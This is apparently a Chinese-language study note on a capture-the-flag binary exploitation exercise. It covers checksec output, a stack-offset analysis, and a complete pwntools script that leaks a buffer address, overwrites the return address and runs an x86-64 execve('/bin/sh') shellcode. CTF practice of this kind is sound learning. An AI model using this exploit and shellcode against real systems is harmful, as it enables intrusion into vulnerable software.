 这里用到了 pwntools 自带的 `shellcraft.sh()` 方法。其他的方法还需要相应的学习。

查看shellcode的网站：https://www.exploit-db.com/shellcode/

这里他布置了一道习题：sniperoj-pwn100-shellcode-x86-64 ，我们来看一下：

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

发现是64位的，接着看源代码：

中间有一处打印出来了 `buf` 的地址，可以使用之。

根据wp：

>通过
>
>```
>  __int64 buf; // [sp+0h] [bp-10h]@1
>  read(0, &buf, 0x40uLL);
>```
>
>可以知道buf相对于ebp的偏移为0x10,所以其可用的shellcode空间为16+8=24。我找了到了一个长度为23的shellcode。但是其本身是有push指令的，这时候如果我们把shellcode放在最前面，在程序leave的时候，在执行这些就会被覆盖。

不得不佩服一下，这个我真的没有想到。就是说`buf`后面 `0x10+0x8` 大小的空间都不可以使用，因为在那之前的 `leave` 指令会将这一段覆盖掉。既然这样，我们跳过这一段就可以了。

这时的payload就是：

```bash
'a'*(0x10+8)+(buf_addr+(0x10+8+8))+shellcode
```

这个payload的长度是55，小于 0x40 。我们还可以试试其他的shellcode。在这之前，我们把它转换成代码吧。

```python
# --*-- coding:utf-8 --*--
from pwn import *

p = process('./shellcode')

shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
p.recvuntil('[')
buf_addr = p.recvuntil(']', drop=True)
buf_addr = int(buf_addr, 16)

payload = 'a'*24+p64(buf_addr+32)+shellcode_x64
print(len(payload))
p.sendline(payload)
p.interactive()
```
